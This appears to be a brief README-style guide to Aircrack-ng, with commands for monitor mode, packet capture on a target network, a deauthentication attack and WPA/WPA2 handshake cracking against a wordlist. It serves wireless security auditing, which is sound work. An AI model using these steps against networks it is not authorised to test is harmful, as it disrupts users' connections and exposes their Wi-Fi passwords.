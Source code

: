 # Aircrack-ng Guide

Aircrack-ng is a suite of tools for auditing wireless networks. It includes various utilities for capturing, monitoring, and cracking Wi-Fi passwords. This guide will walk you through some common Aircrack-ng commands.

## Installation

Make sure you have Aircrack-ng installed on your system. You can install it using package managers like `apt` on Debian-based systems or `brew` on macOS.

```bash
# Debian/Ubuntu
sudo apt-get install aircrack-ng
```

## Basic Commands

1. Monitor Mode

Before you can capture packets, your wireless card needs to be in monitor mode.

```bash
iwconfig
```

```bash
sudo airmon-ng start <interface>
```

2. Packet Capture

Capture packets from a specific channel.

```bash
sudo airodump-ng -c <channel> --bssid <target_BSSID> -w <output_file> <interface>
```

3. Deauthentication Attack

Force a client to reconnect, capturing the handshake.

```bash
sudo aireplay-ng -0 2 -a <target_BSSID> -c <client_MAC> <interface>
```

4. Crack WPA/WPA2 Password

Once you have captured the handshake, use Aircrack-ng to crack the password.

```bash
sudo aircrack-ng -a2 -b <target_BSSID> -w <wordlist_file> <capture_file>
```
